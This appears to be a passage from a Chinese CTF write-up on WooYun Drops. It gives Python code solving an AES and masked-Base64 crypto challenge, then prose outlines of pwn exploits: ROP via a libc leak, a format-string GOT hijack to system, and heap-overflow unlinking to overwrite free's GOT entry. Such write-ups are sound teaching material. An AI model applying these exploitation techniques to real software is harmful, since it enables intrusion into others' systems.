    for key1 in keys1:
        tmp_res.append(AES.new(key1, AES.MODE_ECB).decrypt(
                          final_answer))
    for key0 in keys0:
        tmp = AES.new(key0, AES.MODE_ECB).encrypt(answer)
        if tmp in tmp_res:
            print "key0: " + repr(key0)
            return getkey1(key0)

if __name__ == "__main__":
    crack()
    key = "\x81i7\x88a\xba"
    print hashlib.sha256(key).hexdigest()
"""
key0: 'hey7check\x88it\x81out'  2 3 0
key1: 'comeionababy\xba~~!'     1 4 5
5bd15779b922c19ef9a9ba2f112df1f2dbb0ad08bbf9edac27a28a0f3ba753f4

http://download.sycsec.com/code/code400/5bd15779b922c19ef9a9ba2f112df1f2dbb0ad08bbf9edac27a28a0f3ba753f4.txt

"""

```

当然上面的代码中也可以不事先执行完 3 个 256 的循环，这样还可以进一步加快计算速度，因为中间只要得到答案就可以返回了。这里得到的 key 为"\x81i7\x88a\xba"，sha256 得到 5bd15779b922c19ef9a9ba2f112df1f2dbb0ad08bbf9edac27a28a0f3ba753f4。所以打开

http://download.sycsec.com/code/code400/5bd15779b922c19ef9a9ba2f112df1f2dbb0ad08bbf9edac27a28a0f3ba753f4.txt

打开得到如下的提示：

```
====== Base64 格式密文 ======
Or18/xSC2xW5pT7BLbIE7YPGLwWytbZsxupMp4w6iaa0QvtYZUMefkf43wmzR36MekHm23wgI4buIJLGk7m7gTq9fP8UgtsVuaU+wS2yBO2Dxi8FsrW2bMbqTKeMOommtEL7WGVDHn5H+N8Js0d+jHpB5tt8ICOG7iCSxpO5u4E6vXz/FILbFbmlPsEtsgTtg8YvBbK1tmzG6kynjDqJprRC+1hlQx5+R/jfCbNHfox6QebbfCAjhu4gksaTubuBOr18/xSC2xW5pT7BLbIE7YPGLwWytbZsxupMp4w6iaa0QvtYZUMefkf43wmzR36MekHm23wgI4buIJLGk7m7gTq9fP8UgtsVuaU+wS2yBO2Dxi8FsrW2bMbqTKeMOommtEL7WGVDHn5H+N8Js0d+jHpB5tt8ICOG7iCSxpO5u4E=
====== 部分明文还原 ======
*****n**M****H***j***Wx*******d************h*****3****=*******==******t**F**M**f***hM************3***H*w**J*********=**==*******U******E**95**V*c*N****5**t*M*****J*c*Q*****c*h5**0******==*==****NUR*******************X2*u*H**Y************G**P****=***********0*****************************f***5****OX*********=*******=**** 
```

对 Base64 密文进行 Base64 解码，发现密文的长度为 320，和明文的长度是一致的，然后密文是下面的值重复 5 次：

```
:\xbd|\xff\x14\x82\xdb\x15\xb9\xa5>\xc1-\xb2\x04\xed\x83\xc6/\x05\xb2\xb5\xb6l\xc6\xeaL\xa7\x8c:\x89\xa6\xb4B\xfbXeC\x1e~G\xf8\xdf\t\xb3G~\x8czA\xe6\xdb| #\x86\xee \x92\xc6\x93\xb9\xbb\x81 
```

密文和明文长度是一致的，然后密文是重复的，可以猜想明文也是重复的，而且明文去除掩码后得到的字符串的长度刚好是 64（64*5=320）：

nMHjWxdh3===tFMfhM3HwJ===UE95VcN5tMJcQch50====NURX2uHYGP=0f5OX==

所以猜想通过带掩码的明文刚好可以恢复出明文值，代码如下：

```
# -*- coding:utf-8 -*-
import sys
import hashlib
import base64

def crack():
    ciphertext = base64.b64decode("Or18/xSC2xW5pT7BLbIE7YPGLwWytbZsxupMp4w6iaa0QvtYZUMefkf43wmzR36MekHm23wgI4buIJLGk7m7gTq9fP8UgtsVuaU+wS2yBO2Dxi8FsrW2bMbqTKeMOommtEL7WGVDHn5H+N8Js0d+jHpB5tt8ICOG7iCSxpO5u4E6vXz/FILbFbmlPsEtsgTtg8YvBbK1tmzG6kynjDqJprRC+1hlQx5+R/jfCbNHfox6QebbfCAjhu4gksaTubuBOr18/xSC2xW5pT7BLbIE7YPGLwWytbZsxupMp4w6iaa0QvtYZUMefkf43wmzR36MekHm23wgI4buIJLGk7m7gTq9fP8UgtsVuaU+wS2yBO2Dxi8FsrW2bMbqTKeMOommtEL7WGVDHn5H+N8Js0d+jHpB5tt8ICOG7iCSxpO5u4E=")
    plaintext = "*****n**M****H***j***Wx*******d************h*****3****=*******==******t**F**M**f***hM************3***H*w**J*********=**==*******U******E**95**V*c*N****5**t*M*****J*c*Q*****c*h5**0******==*==****NUR*******************X2*u*H**Y************G**P****=***********0*****************************f***5****OX*********=*******=****"
    print repr(ciphertext)
    length = len(ciphertext) / 5
    answer = list("*"*length)
    for i in xrange(0, len(plaintext)):
        if plaintext[i] != '*':
            answer[i%length] = plaintext[i]
    answer = "".join(answer)
    print answer
    print base64.b64decode(answer)
    # SCTF{D0_y0u_r3a1ly_kn0w_crypt09raphy?}

if __name__ == "__main__":
    crack()

```

解出来的明文为：

U0NURntEMF95MHVfcjNhMWx5X2tuMHdfY3J5cHQwOXJhcGh5P30=============

进行 Base64 解码得到 Flag 为。SCTF{D0_y0u_r3a1ly_kn0w_crypt09raphy?}

## pwn200

* * *

简单的栈溢出，利用一个字节修改输入长度，先通过泄露站上的 libc 中的地址获取 system 函数基址 /bin/sh 地址，然后就是 rop 链

## pwn300

* * *

格式化字符串漏洞，开了 dep，没办法获得栈地址，所以通过劫持 got 表来实现 system 函数的执行。 利用步骤：

1.  先通过%279$x 泄露获得 libc_start_main 地址

2.  根据提供的 libc 计算出 system 地址

3.  每次该两个字节劫持 printf 函数地址为 system 

4.  发送/bin/sh，让其通过 printf 打印，实际上是在执行/bin/sh

## Pwn400

* * *

看到双向链表就猜到了是模拟 dlmalloc 堆溢出了.在 edit content 的时候，输入超长，可以覆盖下一个堆块的内容，这样链表的双向指针就可以被我们控制，实现任意地址写漏洞：如下是 content 超长的截图：



要注意的是，该文件关闭了 dep，那利用思路就是利用任意地址写漏洞，将 shellcode 地址写入某个 got 表，选择一个合适的函数 got 表很关键，最后我选择的是 free 函数的 got 表，原因是如下图所示：



在链表卸载后有个释放堆的函数，我们要覆盖双向指针，必然会导致堆块头部受损，保证堆块头部不出问题是个麻烦的事儿，不如直接劫持 free 函数，同时也不会有其他问题。

那整体的利用顺序就是：1。申请 3 个 note 2.编辑第一个 note，设置内容覆盖第二个 note 的双向指针，3.释放第二个 note。关键代码如下：



版权声明：未经授权禁止转载 [EvilMoon](http://drops.wooyun.org/author/EvilMoon "由 EvilMoon 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [HttpOnly 隐私嗅探器](http://drops.wooyun.org/tips/2834)
*   [sqlmap 用户手册[续]](http://drops.wooyun.org/tips/401)
*   [WordPress 3.5.1 远程代码执行 EXP](http://drops.wooyun.org/papers/785)
*   [Shodan 搜索引擎介绍](http://drops.wooyun.org/tips/2469)
*   [2014 年澳大利亚信息安全挑战 CySCA CTF 官方 write up Web 篇](http://drops.wooyun.org/tips/2444)
*   [下载文件的 15 种方法](http://drops.wooyun.org/tips/2420)